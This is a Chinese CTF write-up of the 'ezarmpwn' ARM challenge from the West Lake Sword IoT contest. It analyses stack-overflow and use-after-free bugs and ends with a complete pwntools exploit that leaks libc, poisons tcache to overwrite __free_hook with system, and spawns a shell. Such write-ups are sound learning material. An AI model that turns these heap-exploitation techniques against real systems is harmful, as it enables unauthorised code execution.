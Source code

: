 ```yaml
---
layout: post
title: 西湖论剑IoT闯关赛复现
description: 有幸参加西湖论剑的比赛，虽然比赛结果不太理想，但每次比赛都会有很大的收获，我决定将这些东西写下来作为分享，如果有错误请批评指正
categories:  IoT
---
```










<!-- more -->

### ezarmpwn

#### 分析程序

首先查看程序保护机制

32位程序

libc是2.30

没有canary（基本是栈溢出）

无PIE(果然ez)

![](/image/character13/ezarmpwn1)

#### 静态分析

**register**

输入的username长度没有限制，然后复制到dest上,可实现栈溢出

![](/image/character13/ezarmpwn2)

---



**Add函数** 

可添加 size<=0x70的heap（tcache,fastbin)

![](/image/character13/ezarmpwn4)

---

**Delete**

UAF漏洞

![](/image/character13/ezarmpwn5)

---

**modify**

修改dest，由于dest是0x40大小，可以溢出0x8个字节,同时注意到buf是没有初始化的，我们可以通过这个泄漏栈里面的数据

![](/image/character13/ezarmpwn6)

---

**Info**

info打印username和password



#### 利用分析

1.泄漏地址

由于程序有个printf打印username和passwd,可通过将\x00覆盖得到想要的地址

通过分析username可以泄漏地址，分析passwd得知通过modify函数可以泄漏libc

* 0xfffef084是passwd的地址,可以看到里面有libc的地址![](/image/character13/ezarmpwn7)

2.利用分析

* 栈溢出控制返回地址

* UAF漏洞(tcache,fastbin,unsortedbin) **这里是32位系统，fastbin大小是0-0x50** 

  由于版本是libc-2.30.so

  而且我们只能使用add和free,所以tcache bin attack无法完成

  如果是fastbin attack也不行，因为只能申请 0xf 次

  但是我们可以用 overchunk 的思想

  通过合并堆块0和1之后再分配一个大的堆块2(unsortedbin的大小)，这样就可以伪造堆块1了

  由于是UAF，所以free掉堆块1就可以进入tcache了

  然后free掉堆块2，再分配一次可以将tcache改为free_hook就可以分配进去了

#### exp

```c

from pwn import *


context.log_level="debug"
def info():
   p.sendlineafter("> ","2")


def play():
   p.sendlineafter("> ","1")


def add(index,size,note):
   play()
   p.sendlineafter("> ","1")
   p.sendafter(": ",str(index))
   p.sendlineafter(": ",str(size))
   p.sendafter(": ",note)


def delete(index):
   play()
   p.sendlineafter("> ","2")
   p.sendlineafter(": ",str(index))
   
p=process(["qemu-arm","-g","1234","-L",".","./pwn3"])
#p = remote("20.20.11.14", 9999)


un="aaaaa"
pd1="bbbbb"
pd2="bbbbb"
p.sendlineafter(":",un)
p.sendlineafter(":",pd1)
p.sendlineafter(":",pd2)
p.sendline("")


p.sendlineafter("> ","3")
p.sendlineafter(":","a"*0x20)
p.sendline("")


info()
p.recvuntil(": ")
libc=u32(p.recv(4))+0xff69cba0-0x044ba0-0xff68a248
# print hex(libc)


for i in range(9):
   add(i,0x40,"aaaa\n")
add(15,6,"a\n") #0x10
add(14,6,"a\n") #0x10
delete(15) 
delete(14) #tcache[0x10]=14->15
for i in range(9):
   delete(8-i) #fastbin=0->1 
free_hook = libc + 0x1479cc
system    = libc + 0x3a028
add(9,0x70,"a"*0x40+p32(0)+p32(0x11)+p32(0)*3+p32(0x39)+"\n") #overchunk
delete(1) #tcache[0x10] = 1->14->15
delete(9)  
add(10,0x70,"a"*0x40+p32(0)+p32(0x11)+p32(free_hook)*3+p32(0x39)+p32(libc+0x1479cc)+"\n")
add(11,8,"/bin/sh\x00")
add(12,8,p32(libc+0x3a028)+"\n")
# print hex(libc+0x1479cc)
delete(11)
p.interactive()
```

#### 参考

exp参考chamd5的wp,如果分析有错请批评指正

邮箱:VinadiakT@outlook.com



